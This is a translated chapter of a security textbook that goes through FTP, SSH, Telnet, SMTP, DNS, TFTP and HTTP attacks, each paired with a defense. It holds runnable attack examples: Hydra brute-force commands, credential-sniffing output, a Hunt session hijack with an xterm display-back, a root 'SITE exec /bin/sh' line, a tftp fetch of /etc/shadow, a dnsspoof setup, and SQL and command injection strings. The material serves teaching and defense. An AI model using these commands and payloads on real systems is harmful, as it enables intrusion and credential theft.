以下是如何使用 Hydra 暴力破解 FTP 账户的示例：

```
[bash]$ hydra -L usernames.txt -P passwords.txt
ftp.somecompanyforexample.com ftp
Hydra v2.2 (c) 2002 by van Haumer / THC - use allowed only for legal
purposes.
Hydra is starting! [parallel tasks: 4, login tries: 4 (1:2/p:2)]
[21] [ftp] login: joe   password: mypassword
Hydra finished.
```

#### 防止 FTP 暴力破解

请参阅“防止暴力破解攻击的常见防御措施”。

- **嗅探** 由于 FTP 是明文协议，因此可以捕获通过网络传输的用户名和密码。Ettercap 等工具有助于捕获 FTP 数据。

#### 嗅探 FTP 认证

以下是如何使用 Ettercap 捕获通过网络传输的 FTP 凭据的示例：

```
[bash]# ettercap -m -C -N

ettercap 0.6.7 (c) 2002 ALoR & NaGA

Your IP: 10.0.0.102 with MAC: 01:11:04:03:6A:A3 on iface: eth0

Loading plugins... Done.

Resolving 1 hostnames...

* |===================================| 100.00%

Press 'h' for help...

Sniffing (MAC based): ANY <-> ANY

TCP + UDP packets... (default)

Collecting passwords...

07:04:58  10.0.0.102:4814 <--- 192.168.1.1:21          ftp
USER: smith
PASS: myp455w0rd
```

#### 使用安全协议

不要使用 FTP 等明文协议。考虑使用 HTTPS 或 SSH 进行安全的文件传输。

- **FTP 配置错误** 由于配置问题，FTP 客户端和服务器容易遭受远程利用。以下段落涵盖了针对此类配置错误的最常见攻击。

#### 反弹攻击

由于 FTP 协议的设计，当 FTP 客户端使用“主动”模式请求数据传输时，FTP 服务器必须主动向 FTP 客户端的某个端口发起连接。FTP 客户端发出 PORT 命令，并将其 IP 地址和监听端口号作为参数。如果 FTP 客户端发出的 PORT 命令包含另一台主机的 IP 地址，那么 FTP 服务器将尝试连接到该主机。因此，FTP 协议的这一特性可用于代理端口扫描。你可以利用 nmap 的 `-b` 选项执行此类扫描。

一旦发出 PORT 命令，恶意客户端可以执行 RETR 命令，向 FTP 服务器发送包含命令的文件。这将导致 FTP 服务器将指定文件的内容转储到 PORT 命令指定的主机的指定端口。该文件可能包含 SMTP 命令，例如，使恶意 FTP 客户端用户能够通过 FTP 服务器代理电子邮件。

#### 防止反弹攻击成功

为了确保防范 FTP 反弹攻击，请确保采取以下预防措施：

- 配置 FTP 服务器，当发出 PORT 命令时，拒绝连接到除客户端以外的 IP 地址。大多数最新的 FTP 服务器默认执行此操作。
- 指示防火墙不允许源端口为 20 的传入连接。注意，此规则可能会阻断合法连接。

#### 连接窃取

当 FTP 客户端在发出 PORT 命令（包含其 IP 地址和端口号）之后发送 PASV（被动）命令时，服务器开始在请求的端口监听连接。此时，恶意用户可能在客户端之前连接到服务器的端口。根据 FTP 客户端发出的下一条命令，恶意用户现在可能能够访问传输的数据。

如果使用被动模式，则 FTP 会话回退到“主动”模式。在此模式下，是客户端开始在指定端口监听。此时，攻击者可能在 FTP 服务器之前连接到客户端。根据客户端发出的下一条命令，攻击者可能伪装成合法服务器，并向客户端传输修改后的文件或数据。


#### 防止连接窃取攻击

以下建议有助于防范连接窃取攻击：

- 配置 FTP 服务器，仅允许来自已认证客户端 IP 地址的连接连接到其数据端口。大多数 FTP 服务器默认执行此操作。请注意，这可能无法防止攻击者和合法 FTP 用户位于同一 NAT 网关背后的攻击，因为它们的源 IP 地址将相同。
- 配置 FTP 客户端，仅接受来自其所连接的 FTP 服务器的连接。

- **软件漏洞** WU-FTPD 是 Unix 和 Linux 上最广泛使用的 FTP 守护进程。不幸的是，其历史一直受到漏洞的困扰，许多远程利用工具已被已知存在。以下是一些已知的 WU-FTPD 漏洞列表：
  - **文件通配符堆损坏漏洞** WU-FTPD 的“文件通配符”功能允许客户端按模式组织文件。某些模式被发现会导致 WU-FTPD 进程中的堆损坏。此漏洞使攻击者能够通过发送特别构造的数据作为输入，在易受攻击的 WU-FTPD 服务器上执行任意命令。更多详情请参阅 http://online.securityfocus.com/bid/3581。
  - **SITE EXEC 漏洞** 旧版本的 WU-FTPD 在其“SITE EXEC”功能中存在漏洞。这个


该漏洞允许客户端脱离其被允许执行的受限命令集合。例如，如果一个FTP客户端向存在漏洞的FTP服务器发送以下命令，该命令将以root权限执行：`SITE exec /bin/sh -c /usr/bin/id` 详见 http://securityfocus.com/bid/2241 获取更多信息。

- **长路径溢出漏洞**  
  WU-FTPD 由于对长文件名的处理不当而存在缓冲区溢出漏洞。更具体地说，这是由于 WU-FTPD 在使用 `realpath()` 函数时缺乏边界检查所致，而该函数又调用了 `strcpy()` 函数。`strcpy()` 函数用于将字符串从内存中的一个源位置复制到另一个位置，但不执行任何边界检查，因此可能导致缓冲区溢出。详情请参阅 http://www.eeye.com/html/Products/Retina/RTHs/FTP_Servers/630.html。

建议考虑使用 ProFTPD 作为 WU-FTPD 的替代品。ProFTPD 相比 WU-FTPD 受远程漏洞影响的次数更少。ProFTPD 可在 http://proftpd.linux.co.uk/ 获取。

## **SSH（安全外壳协议）：22（TCP）**

SSH 是一种用于安全数据交换的协议。它可以用于登录远程机器、远程执行命令以及传输文件。由于 SSH 内部的通信是加密的，它是替代 telnet、rlogin 和 FTP 等远程登录解决方案的理想选择。

### **暴力破解**
SSH 支持使用用户名和密码进行身份验证。因此，可以通过 SSH 对账户进行暴力破解。

### **暴力破解 SSH**

可以通过使用 `expect` 工具编写一个简单的暴力破解脚本来暴力破解 SSH 账户，`expect` 是一个简单的用于与其他交互式程序“通信”的程序。可在 http://www.securiteam.com/tools/5QP0L2K60I.html 找到一个简单的 Expect 脚本示例。`expect` 程序可以从 http://expect.nist.gov/ 下载。

### **防止 SSH 暴力破解**

请参见“针对暴力破解攻击的通用防御措施”。

**SSH 中间人攻击**  
SSH 易受同一网络段中恶意用户发起的中间人攻击。

### **Sshmitm 和 Ettercap**

诸如 `sshmitm` 和 Ettercap 等工具可用于代理 SSH 连接，而诸如 `dnsspoof` 等工具可用于伪造 DNS 查询响应，以将受害者的 SSH 客户端重定向至代理 SSH 服务器。然而，由于服务器呈现的主机密钥将是攻击者的代理 SSH 服务器的主机密钥，因此受害者的 SSH 客户端很可能会警告用户服务器主机密钥已发生变化。不幸的是，大多数最终用户并未将此警告当回事，而是接受了所呈现的密钥，从而导致此类攻击成功。

### **防止针对 SSH 的中间人攻击**

教育用户不要接受来自远程 SSH 服务器的未知主机密钥。如果可能，请将这些密钥的指纹列在内网资源上，以便用户在接受 SSH 会话之前进行验证。

## **软件漏洞**

已知多个版本的 SSH 软件存在漏洞。下一段记录了一个近期的漏洞。

### **Open SSH 质询-响应缓冲区溢出**

发现 OpenSSH 的各种实现因其质询-响应机制而存在缓冲区溢出漏洞。在编译以支持 `SKEY` 或 `BSD_AUTH` 身份验证的 OpenSSH 服务器上存在这种缓冲区溢出条件。

此外，还在 OpenSSH 的质询-响应机制中发现了另一个漏洞。此漏洞是由 OpenSSH 在处理质询-响应身份验证期间接收的响应时处理不当引起的。使用支持交互式键盘身份验证的 PAM 模块的系统易受此漏洞影响。因此，开启了以下选项的系统受到影响：

```
PAMAuthenticationViaKbdInt
ChallengeResponseAuthentication
```

详见 [http://online.securityfocus.com/bid/5093](http://online.securityfocus.com/bid/5093) 获取更多信息。

## **Telnet：23（TCP）**

Telnet 是一种用于登录远程机器的明文协议。

### **暴力破解**

可以使用 Hydra 等许多公开可用的工具对 FTP 账户进行暴力破解。

### **暴力破解 Telnet**

可以使用 Hydra 对 telnet 进行暴力破解：

```
[bash]$ hydra -L usernames.txt -P passwords.txt \n  telnet.somecompanyasanexample.com telnet\nHydra v2.2 (c) 2002 by van Hauser / THC - use allowed only for legal purposes.\nHydra is starting! [paralell tasks: 4, login tries: 9 (1:3/p:3)]\n[23] [telnet] login: jill password: 11ov3jack\nHydra finished.
```

### **防止 Telnet 暴力破解**

请参见“针对暴力破解攻击的通用防御措施”。

**TCP 劫持**  
在 telnet 用户成功登录后，同一网络段上的其他用户可以利用 Hunt 等 TCP 劫持工具劫持该会话。

### **劫持 Telnet 会话**

假设 IP 地址为 192.168.1.1 的恶意用户与 192.168.1.2 上的用户处于同一网络段。如果 192.168.1.2 上的用户已建立与 10.0.0.1 的 telnet 连接，那么 192.168.1.1 上的恶意用户可以使用 Hunt 劫持它：

```
[bash]# hunt -1 eth0
/*
     hunt 1.5
     multipurpose connection intruder / sniffer for Linux
     (c) 1998-2000 by kra
*/
starting hunt
    Main Menu --- rcvpkt 0, free/allock 63/64 -------
1/w/r) list/watch/reset connections
u)      host up testss
a)      arp/simple hijack (avoids ack storm if arp used)
s)      simple hijack
d)      daemons rst/arp/sniff/mac
o)      options
x)      exit
*--> g
0) 192.168.1.2 [52323]     --> 10.0.0.1 [23]
```

选择连接 > 0  
转储连接 y/n [n]> n  
输入您希望执行的命令字符串或 [cr]> whoami  
whoami  
jack  
输入您希望执行的命令字符串或 [cr]>

在这种情况下，恶意用户在劫持了受害者的 telnet 会话后执行了 whoami 命令。如图所示，命令执行成功，其输出显示了受害者用户名“jack”。同样，恶意用户还可以发出诸如 `xterm -display 192.168.1.1:0 &` 这样的命令，这将把由受害者用户“jack”拥有的 xterm shell 发送回给恶意用户。当然，恶意用户必须在其自己的主机上运行诸如 `xhost +192.168.1.2` 这样的命令，以允许在受害者主机上执行的 xterm 实例在其 X 服务器上显示。

### **使用 SSH**

禁用 telnet，改为使用 SSH（版本 2）等安全替代方案。

**嗅探**  
由于 telnet 是明文协议，因此可以嗅探通过网络发送的用户名和密码。许多工具有助于捕获 telnet 数据和密码。

### **嗅探 Telnet 身份验证**

可以使用 Ettercap 在 telnet 身份验证过程中嗅探通过传输的用户名和密码：

```
[bash]# ettercap -m -C -N
ettercap 0.6.7 (c) 2002 ALoR & NaGA
Your IP: 10.0.0.102 with MAC: 01:11:04:63:6A:A3 on iface: eth0
Loading plugins... Done.
Resolving 1 hostnames...
* |=====================================> | 100.00 %

Press 'h' for help...

- Sniffing (MAC based): ANY <--> ANY
- TCP + UDP packets... (default)
- Collecting passwords...

07:04:58   10.0.0.102:4814 <--> 192.168.1.1:23          telnet

USER: john
PASS: 1l0vetel3t
```

### **不要使用 Telnet**

不要使用 telnet 等明文协议。考虑使用 SSH 代替。

## **软件漏洞**

telnet 守护程序的历史中涉及几个可远程利用的漏洞。下一段描述了一个漏洞，这很可能是最容易利用的漏洞之一。

### **Solaris in.telnetd TTYPROMPT 缓冲区溢出漏洞**

发现 Solaris 2.6–2.8 附带的 /bin/login 版本存在涉及环境变量 TTYPROMPT 的漏洞。为了攻击此漏洞，攻击者需要将 TTYPROMPT 的值设置为六个字符的字符串，并在连接时，在用户名后发送 64 个字符的 c 以及字面量 \n。例如，考虑一个攻击者试图通过以用户 bin 身份登录来利用此漏洞：

```
[bash]$ telnet
telnet> environ define TTYPROMPT abcdef
telnet> o telnet.somecompanyasnanexample.com
Trying 192.168.1.10...
Connected to telnet.somecompanyasnanexample.com.
Escape character is '^]'

SunOS 5.6

bin cccccc c c c c c c c c c c c c c c c c c c c c c c c
ccccccccccccccccccccccccccccccccccccccc
Last login: Thu Dec 10 12:19:10 from 10.0.0.2
```


# **72** 第一部分：黑客技术及其防御

更多详细信息请参见 [http://www.securityteam.com/unixfocus/6R0050K5PC.html](http://www.securityteam.com/unixfocus/6R0050K5PC.html)。

### SMTP（简单邮件传输协议）：25（TCP）

SMTP 是互联网上用于传输电子邮件消息的协议。

- **嗅探** 由于 SMTP 是明文协议，因此可以捕获通过网络发送的 SMTP 数据。

#### 嗅探 SMTP 流量

*mailsnarf* 程序是 Dsniff 工具包的一部分，可用于捕获网络上的 SMTP 数据。由于 *mailsnarf* 监控网络上的 SMTP 数据，因此必须在与受害者位于同一网段机器上运行该程序。

```bash
[bash] $ mailsnarf
Kernel filter: protocol ALL, raw packet socket
mailsnarf: listening on eth0 []
From joe@somecompanyasanexample.com Tue Feb 4 15:24:57 2003
Received: from localhost (joe@localhost)
    by mail.somecompanyasanexample.com (8.11.6/8.11.6) with
    ESMTP id H1420Qn23205
    for <smith@someothercompany.org>; Tue, 4 Feb 2003 15:24:56 -0800
Date: Tue, 4 Feb 2003 15:24:56 -0800 (PST)
From: Joe User <joe@somecompanyasanexample.com>
X-X-Sender: joe@localhost.localdomain
To: smith@someothercompany.org.com
Subject: RE: Your email
Message-ID: Pine.LNX.4.44.0302041524510.23193-100000@localhost.localdomain
MIME-Version: 1.0
Content-Type: TEXT/PLAIN; charset=US-ASCII

Hello,

Thanks for your email. The password for your PVP account is 3rd$x13x23.
Yes I know it is hard to remember, but its for your own security.

Thanks.

Joe.
```

#### 加密电子邮件

可以使用 GNU Privacy Guard 工具集来促进电子邮件的加密。鼓励用户加密包含敏感信息的电子邮件。请访问 **http://www.gnupg.org** 以获取有关 GNU Privacy Guard 的更多信息。

- **软件漏洞** Sendmail 是互联网上使用最流行的 MTA（邮件传输代理）。已知 Sendmail 曾存在许多可远程利用的漏洞。

- **Sendmail 头部处理缓冲区溢出漏洞** 此漏洞是由 Sendmail 头部解析组件中的缓冲区溢出条件引起的。更具体地说，Sendmail 的 crackaddr (char *addr) 函数未能正确处理邮件头部中“From”地址字段字符串中的 < 和 > 字符。更多详情请参见 **http://www.cert.org/advisories/CA-2003-07.html** 和 **http://security.focus.com/bid/6991**。

- **Sendmail MIME 漏洞** Sendmail 版本 8.8.3 引入了一个新的漏洞，该漏洞是由于在对电子邮件消息执行 MIME 转换时边界检查不当造成的。可以通过发送特制消息使 Sendmail 进程覆盖其内部堆栈空间，从而利用此漏洞在 Sendmail 服务器上运行任意命令。更多信息请参见 **http://onliners.securityfocus.com/bid/685**。

- **Sendmail HELO 缓冲区溢出** 旧版本 Sendmail 中的缓冲区溢出导致在将长字符串作为其 HELO 命令的参数发送时发生崩溃。可以远程利用此漏洞在 Sendmail 服务器上运行任意命令。更多信息可在 **http://www.eye.com/html/Products/Retina/RTHS//Mail_Servers/141.html** 找到。

- **Sendmail DNS Map TXT 记录缓冲区溢出漏洞** 在 Sendmail 代码的 DNS 处理中发现了一个缓冲区溢出漏洞。此漏洞是由于对从名称服务器返回的数据边界检查不当造成的。由于此漏洞会导致缓冲区溢出，因此可以通过使恶意名称服务器返回任意长度的响应来利用此漏洞在 Sendmail 服务器上运行命令。更多信息可在 **http://online.securityfocus.com/bid/5122** 找到。

### DNS（域名系统）：53（TCP 和 UDP）

DNS 是用于在域名和 IP 地址之间进行转换的协议。

- **欺骗** 与 TCP 不同，UDP 不是面向连接的协议。这使得伪造 UDP 流量变得容易。当 DNS 客户端向 DNS 服务器发出查询时，DNS 服务器通过发送来自端口 53 的 UDP 数据包来响应查询。然而，位于同一网段或位于通往 DNS 服务器路径上的恶意用户可以向客户端发送带有 DNS 服务器源 IP 地址的响应。如果恶意用户的响应先于真实 DNS 服务器的响应到达客户端，则该恶意响应将被接受。由于恶意用户可以伪造返回给客户端的 DNS 响应，他/她可能会欺骗客户端连接到他/她的机器而不是预期的目标。

#### 伪造 DNS 响应

dnsspoof 程序随 Dsniff 一起分发，是一个便于伪造 DNS 查询的工具。例如，假设攻击者已经控制了 IP 地址为 10.0.0.1 的网络网关。假设 somecompanyasanexample.com 的真实 IP 地址是 10.1.1.2。攻击者现在可以运行 dnsspoof，并使其以 192.168.1.1（攻击者机器的 IP 地址）响应所有针对 somecompanyasanexample.com 的 DNS 查询。

```bash
[gateway]$ dnsspoof -i eth0 -f /etc/dnssniff.txt
Kernel filter: protocol ALL, raw packet socket
dnsspoof: listening on eth1 [udp dst port 53 and not src 10.0.0.1]
```

攻击者需要确保 /etc/dnssniff.txt 的内容包含以下内容：

```text
192.168.1.1 somecompanyasanexample.com
```

现在，在试图识别入侵者的过程中，如果受害者对 somecompanyasanexample.com 执行 DNS 查询，他或她会被指向黑客机器的 IP 地址 192.168.1.1（而不是 10.1.1.2）：

```bash
[bash]$ host somecompanyasanexample.com
somecompanyasanexample.com has address 192.168.1.1
```

#### DNSSEC

考虑使用 DNSSEC（DNS 安全），这是 DNS 的扩展，提供端到端的真实性。有关 DNSSEC 的更多信息，请参见 http://www.dnssec.net/。

- **软件漏洞** BIND（Berkeley Internet Name Domain）是互联网上使用最广泛的 DNS 服务器。下一段记录了一个众所周知的 BIND 漏洞。

- **BIND NXT 溢出和 DoS 漏洞** 此漏洞是由于 BIND 在处理 NXT 记录的输入验证时失败而造成的。可以通过强制易受攻击的 DNS 服务器获取恶意制作的 NXT 记录来远程利用此漏洞。在位于 [http://online.securityfocus.com/bid/788](http://online.securityfocus.com/bid/788) 的 BIND 公告中还公布了其他 DoS（拒绝服务）漏洞。

考虑使用 **djbdns** 作为 BIND 的替代品。**djbdns** 程序可在 [http://cr.yp.to/djbns.html](http://cr.yp.to/djbns.html) 获取。

### TFTP（简单文件传输协议）：69（UDP）

TFTP 是基于 UDP 的协议，用于传输文件。它缺少大多数功能，如身份验证和目录列表。TFTP 仅支持从远程服务器读取和写入文件。

- **嗅探** 由于 TFTP 是明文协议，因此可以嗅探正在传输的数据。

#### 嗅探 TFTP 数据

假设一个用户正在从远程主机 TFTP 传输 /etc/passwd 文件。同一网段上的恶意用户可以通过运行配置为显示 UDP 流量的 **Etercap** 来嗅探受害者的数据：

```bash
[shell]# etercap -N -m -t udp

etercap 0.6.7 (c) 2002 LoR & NaGa

Your IP: 192.168.1.1 with MAC: 00:01:1E:34:AB:36 on iface: eth0
Loading plugins... Done.
Resolving 1 hostnames...

* [===================================================================] 100.00 %

Press 'h' for help...

Sniffing (MAC based): ANY <-> ANY

UDP packets only...

22:49:55 192.168.1.1:33569 --> 10.0.0.1:69 proto: U
..hello./etc/passwd.

22:23:54 10.0.0.1:2563 --> 192.168.1.1:33569 proto: U
....root::0:0:root:/root:/bin/bash.
bin::1:1:bin:/bin:
daemon::2:2:daemon:/sbin:
adm::x:3:4:adm:/var/adm:
lp::x:4:7:lp:/var/spool/lpd:
sync::x:5:0:sync:/sbin:/bin/sync.
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown.
halt:x:7:0:halt:/sbin:/sbin/halt.
mail::x:8:12:mail:/var/spool/mail:
news::x:9:13:news:/var/spool/news:
ucarp:x:10:14:ucarp:/var/spool/ucarp:
operator:x:11:0:operator:/root:
games:x:12:100:games:/usr/games:
gopher::x:13:30:gopher:/usr/lib/gopher-data:
ftp::x:14:50:FTP User:/home/ftp:. 
```

#### 使用安全协议

不要使用 TFTP 等明文协议。考虑使用 HTTPS 或 SSH 执行安全文件传输。

TFTP 配置错误 TFTP 服务器通常被错误配置为服务于 /（根）目录中的文件。这样的配置可能允许远程用户获取诸如 /etc/passwd 等文件。

#### 获取系统关键文件

如果远程 TFTP 服务器被错误配置为服务于 /（根）目录中的文件，可以使用以下 TFTP 命令尝试获取诸如 /etc/shadow 和 /etc/passwd 等文件：

```bash
[bash]$ tftp 10.0.0.1
tftp> get /etc/shadow
```

#### 设置 TFTP 根目录

大多数最新的 TFTP 服务器默认配置为仅服务于 /tftpboot 目录中的文件。可以使用 -s 开关设置或更改此目录。有关详情，请参见 man tftpd。


### HTTP（超文本传输协议）：80（TCP）

HTTP 是一种无状态协议，用于分发各种超媒体。它最常用于提供万维网（WWW）内容。

> 手动检查所有可能的 HTTP 错误配置和漏洞是不可能的。诸如 Nikto 之类的自动化工具（可从 [http://www.cirt.net/code/nikto.shtml](http://www.cirt.net/code/nikto.shtml) 获取）在 Web 服务器和应用评估方面表现良好，应使用这些工具来检查错误配置和漏洞。

## 暴力破解
可以使用 Hydra 等工具对 HTTP 身份验证进行暴力破解。

## 暴力破解 HTTP 身份验证

Hydra 是一种支持 HTTP 的暴力破解工具，可用于暴力破解受密码保护的 HTTP 资源。以下是使用 Hydra 暴力破解 HTTP 身份验证的示例：

```
hydra -L usernames.txt -P passwords.txt www.somecompanyanexample.com http
```

## 预防 HTTP 暴力破解

请参阅“针对暴力破解攻击的常见防御措施”。

## 嗅探
由于 HTTP 是明文协议，网络段上的恶意用户可以监视另一个用户的 HTTP 流量。

## 嗅探 URL

随 Dsniff 分发的 urlsnarf 程序可用于嗅探用户在网络上发送的 HTTP 请求：

```
[bash]$ urlsnarf
Kernel filter, protocol ALL, raw packet socket
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]
10.0.0.1 -- [19/Feb/2003:21:50:16 -0800] "GET http://
www.mozilla.org/start/ HTTP/1.1" -- - *"Mozilla/5.0 (X11; U; Linux
1686; en-US; rv:1.3a) Gecko/20021212"*
10.0.0.1 -- [19/Feb/2003:21:50:42 -0800] "GET http://cirt.net/
HTTP/1.1" -- - *"Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.3a) Gecko/
20021212"*
10.0.0.1 -- [19/Feb/2003:21:50:42 -0800] "GET http://cirt.net/
images/bg.gif HTTP/1.1" -- - *"Mozilla/5.0 (X11; U;
Linux i686; en-US; rv:1.3a) Gecko/20021212"*
10.0.0.1 -- [19/Feb/2003:21:50:42 -0800] "GET http://cirt.net/images/cirt_headline.gif HTTP/1.1" -- "http://cirt.net/" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.3a) Gecko/20021212" 
10.0.0.1 -- [19/Feb/2003:21:50:42 -0800] "GET http://cirt.net/images/pix.gif HTTP/1.1" -- "http://cirt.net/" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.3a) Gecko/20021212"
```

同样随 Dsniff 分发的 webspy 程序是另一个出色的 HTTP 嗅探工具。一旦它在网络上检测到 HTTP 请求，就会将其发送到正在运行的 Netscape 进程。这使得网络上的恶意用户能够实时监视受害者的 HTTP 会话。

## 嗅探 HTTP 数据

Etercap 可用于嗅探网络上发送的 HTTP 流量：

```
[bash]$ ettercap -t cpc -N -8 ANY:80

ettercap 0.6.7 (c) 2002 ALoR & NaGA Your IP: 10.0.0.1 with MAC: 00:01:01:3a:4a:b2 on Iface: eth0
Loading plugins... Done.
Resolving 1 hostnames...
* |=================================================> 100.00 %
Press 'h' for help...
Sniffing (IP based): ANY:80 <--> ANY:0 TCP packets only...

22:15:33 10.0.0.1:37725 --> 192.168.1.1:80 proto: T
GET / HTTP/1.0.
Host: mozilla.org.
Accept: text/html, text/plain, application/vnd.sun.xml.writer, application/vnd.sun.xml.writer.global, application/vnd.stardivision.writer, application/vnd.stardivision.writer-globol, application/x-starwriter, application/vnd.sun.xml.writer.template.
Accept: application/vnd.sun.xml.calc, application/vnd.stardivision.calc, application/x-starcalc, application/vnd.sun.xml.calc.template, application/vnd.sun.xml.impress, application/vnd.stardivision.impress, application/vnd.stardivision.impress-packed.
Accept: application/x-starimpress, application/vnd.sun.xml.impress.template, application/vnd.sun.xml.draw, application/vnd.stardivision.draw, application/x-star draw, application/vnd.stardivision.math, application/vnd.sun.xml.math, Accept: application/vnd.stardivision.math, application/x-starmath, audio/mod, image/*, video/mpeg, video/*, application/pgp, application/pdf, application/postscript, message/partial, message/external-body, x-bez, application/andrew-inset, text/richtext.
Accept: text/enriched, x-sun-attachfile, audio/file, posterxml-file, default, mail-file, sun-dekoket-message, application/x-metamail-patch, application/mseword, audio/x-pn-realaudio, audio/vnd.rn-realaudio, application/emil, text/vnd.rn-richtext.
Accept: application/x-shockwave-flash2-preview, application/sdp, application/x-sdp, application/vnd.rn-realmmedia, audio/wav, audio/x-wav, audio/x-pn-wav, audio/x-pn-windows-acm, audio/basic, audio/x-pn-au, audio/aiff, audio/x-aiff, audio/x-pn-aiff, Accept: text/sgml, */*; q=0.01.
Accept-Encoding: gzip, q=compress.
Accept-Language: en.
User-Agent: Lynx/2.8.5dev.7 libwww-FM/2.14 SSL-MM/1.4.1 OpenSSL/0.9.6b

22:15:33 192.168.1.1:80 --> 10.0.0.1:37725 proto: T
HTTP/1.1 200 OK.
Date: Thu, 20 Feb 2003 06:21:30 GMT.
Content-Type: text/html.
Last-modified: Wed, 12 Feb 2003 13:13:05 GMT.
Content-length: 17831.
Accept-ranges: bytes.
Connection: close.

22:15:33 192.168.1.1:80 --> 10.0.0.1:37725 proto: T

<HTML>
<TITLE>Welcome to somecompanyasanexample.com's Web-Site:</TITLE>
</HEAD>
<BODY>
<H1>Welcome!</H1>
</BODY>
</HTML>
```

## 嗅探 HTTP 身份验证

受限的 HTTP 位置需要身份验证。由于 HTTP 是明文的，这些信息可以被 Ettercap 嗅探到：

```
[bash]$ ettercap -m -C -N

ettercap 0.6.7 (c) 2002 ALoR & NaGA

Your IP: 192.168.1.1 with MAC: 00:00:02:13:C1:13 on iface: eth0
Loading plugins... Done.
Resolving 1 hostnames...
* |=============================================================================>| 100.00 %

Press 'h' for help...

Sniffing (MAC based): ANY <--> ANY
TCP + UDP packets... (default)
Collecting passwords...

23:54:24 192.168.1.1:36304 <--> 10.0.0.1:80                 http
USER: root
PASS: myApach3BOX!@#

http://10.0.0.1/intranet/private/administration
```

## 使用 HTTPS

在提供关键和私人数据时，使用 HTTPS 代替 HTTP。

## HTTP 错误配置
通常，Web 服务器会被错误配置，或者以默认配置放入生产网络中。接下来的几段描述了一些常见的利用错误配置。

## 自动索引
当开启自动索引时，如果不存在索引文件（如 index.html），Web 服务器将显示目录的内容。

通常，Web 内容作者错误地将包含敏感信息的文件放置在 Web 根目录内，如果显示目录内容，未经身份验证的用户可以轻松查看这些文件。

## 关闭索引
Apache 用户可以在 `httpd.conf` 中使用 `IndexIgnore` 指令指示服务器关闭索引。

## 获取源代码、配置、统计和密码资源
许多 HTTP 服务器被错误配置，以至于提供了关键文件。以下是一些示例：

- CGI 应用程序的源代码可能包含数据库的用户名和密码。许多 Web 应用程序使用后缀为 .inc 或 .conf 的配置文件。这些文件可能包含系统和密码信息，并且经常被错误配置的 Web 服务器提供。
- Web 服务器统计程序将结果输出到诸如 /stats 等目录，这些目录通常位于 Web 根目录内。
- Apache 允许用户通过在目录中放置名为 .htaccess 的文件来保护目录免受密码保护。.htaccess 文件包含关于密码文件（通常称为 .htpasswd）位置的信息，该文件包含允许账户的密码哈希值。通常，Apache 未配置为限制提供 .htaccess 和 .htpasswd 文件。一旦入侵者访问了 .htpasswd 文件，就可以使用诸如 john 这样的暴力破解工具进行破解。

## 不要提供关键资源
配置您的 Web 服务器以不提供敏感文件。如果使用 Apache，请编辑 `httpd.conf` 文件以拒绝提供具有特定后缀的文件。例如，以下指令禁止提供文件名以 .ht 开头的文件：

```
<Files ~ "^\.ht"> 
    Order allow,deny 
    Deny from all
</Files>
```


**AccessFileName** 指令可用于 httpd.conf 中，以指定除 .htaccess 以外的名称。如果这样做，请务必指示 Apache 不提供服务对应的访问文件。

## Web 应用程序漏洞

本书不可能涵盖所有可能的 web 应用程序漏洞。然而，下文所述的攻击提供了最常见的漏洞的良好示例。

### 利用不当的输入验证

值可以通过提交 HTML 表单输入到 web 应用程序中。在这些值被应用程序使用之前，应检查其是否包含非法字符。设计不良的 web 应用程序未能检查提交的参数，使其容易受到输入验证攻击。

考虑 PHPNuke（一个自动化的基于 web 的新闻应用程序）中发现的漏洞。PHPNuke 未能对用户提供的用于构建 SQL 查询的输入进行净化。这使恶意用户能够对该 PHPNuke 应用程序使用的数据库执行未授权的查询。有关此漏洞的更多信息可以在 [http://www.securityfocus.com/bid/6887](http://www.securityfocus.com/bid/6887) 找到。

利用 web 应用程序的输入验证漏洞来执行未授权 SQL 查询的行为被称为 *SQL 注入*。考虑在 web 应用程序中执行的以下 SQL 代码：

```
SELECT SSN FROM users WHERE username=$INPUT[id]';
```

`id` 参数通过用户提交的 HTML 表单传递给应用程序。如果未进行输入验证，恶意用户可能会提交 HTML 表单，使 `id` 的值等于

```
blah' OR 'x'='x
```

这将导致原始 SQL 查询在数据库上执行以下操作：

```
SELECT SSN FROM users WHERE username='blah' OR 'x'='x';
```

该查询将返回“users”表中所有账户的 SSN 值！许多设计不良的 web 应用程序未对传递给 `system()` 函数调用的参数进行输入验证。大多数编程语言都包含 `system()` 函数调用来执行外部程序：

如果恶意用户输入如下值

```
cat /etc/passwd
```

作为 $i 的值，前面的 *system* 调用将在 web 服务器上执行以下操作：

/bin/echo `cat /etc/passwd`

导致 /etc/passwd 文件显示给恶意用户。

### 防止输入验证漏洞

审计 web 应用程序以确保对所有用户输入参数进行输入验证。一些需要注意的字符包括

```
';/\@&|$~-<>"${}()<>*!
```

## 会话劫持

由于 HTTP 不是有状态协议，会话管理必须由 web 应用程序提供。在大多数情况下，通过使用 *cookies* 来维持会话。cookie 是 web 服务器请求存储在最终用户硬盘上的一块信息。

由于 cookie 存储在最终用户的磁盘上，因此不能完全信任它，也不应该完全信任它。例如，设计不良的应用程序可能会在用户 joe 成功认证后，请求存储以下 cookie 值：

```
lang=en-us; user=joe; time=10:10 EST;
```

如果 web 应用程序仅依赖此 cookie 值，任何用户都可以编辑其 web 浏览器的 cookie 文件（Mozilla 将其 cookie 存储在用户的 .mozilla 目录中的 cookie.txt 中），并手动插入上述 cookie 值以供 web 服务器使用。此外，恶意用户还可以指示其 web 浏览器提供一个 cookie，其值中包含的用户字段被设置为特权用户名称，例如“administrator”。

cookie 不是维持会话的唯一方式。web 应用程序可以通过在 URL 中嵌入会话信息来维持状态：

http://www.somecompanyasanexample.com/authenticated.cgi?user=john&sessionid=12345678.

### 防止会话劫持

以下步骤有助于防止许多类型的会话劫持技术：

- 允许随机生成的会话 ID 供成功认证的用户使用。
- 考虑在 cookie 中存储加密信息，以便最终用户无法操纵它。
- 使用 SSL 传递所有 cookie 信息。

## 隐藏的 HTML 元素

隐藏的 HTML 元素是包含在 web 表单中的静态值。这些值不会显示给最终用户。以下 HTML 代码可用于设置隐藏元素：

```
<INPUT NAME="shippingcharges" TYPE=HIDDEN VALUE="5.25">
```

设计不良的 web 应用程序信任隐藏的 HTML 标签，以便在最终用户的会话之间传递信息。在这种情况下，恶意用户可以下载 HTML 表单并将上述 HTML 代码更改为

```
<INPUT NAME="shippingcharges" TYPE=HIDDEN VALUE="-99">
```

